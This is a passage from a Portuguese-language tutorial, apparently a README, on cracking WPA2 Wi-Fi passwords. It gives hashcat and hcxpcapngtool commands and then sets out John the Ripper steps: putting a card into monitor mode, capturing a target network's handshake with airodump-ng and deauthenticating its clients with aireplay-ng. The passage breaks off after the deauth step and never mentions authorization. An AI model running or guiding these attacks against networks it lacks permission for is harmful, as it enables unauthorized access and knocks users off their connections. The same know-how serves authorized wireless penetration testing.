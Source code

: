 Caso queira usar o novo formato para o Hashcat:

'''bash
hcxpcapngtool -o rede.22000 captura.cap
hashcat -m 22000 -a 0 rede.22000 wordlist.txt
'''

## Usando o John, The Ripper

Quebrar senhas de Wi-Fi protegidas com **WPA2** usando o **John the Ripper** é menos comum do que com o Hashcat, mas é perfeitamente possível — especialmente usando o **modo Jumbo** do John, que adiciona suporte a formatos como WPA/WPA2.

A seguir, te mostro o processo completo para fazer isso com elegância técnica e respeito aos velhos ritos da segurança ofensiva.

---

## ⚔️ **Objetivo**: Quebrar senha de rede WPA2 com **John the Ripper**

---

## 🔧 Pré-requisitos

1. **Placa de rede com modo monitor**.
2. Ferramentas necessárias:

   * [`aircrack-ng`](https://www.aircrack-ng.org/)
   * [`John the Ripper Jumbo`](https://github.com/openwall/john)
   * [`hcxtools`](https://github.com/ZerBea/hcxtools)

---

## 🧙‍♂️ Etapas do Ritual

### 1. **Capture o Handshake com `airodump-ng`**

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

Identifique a rede alvo (**BSSID** e **canal**), depois:

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w captura wlan0mon
```

E então, deauth no cliente:

```bash
sudo aireplay-ng -0 10 -a <BSSID> wlan0mon
```

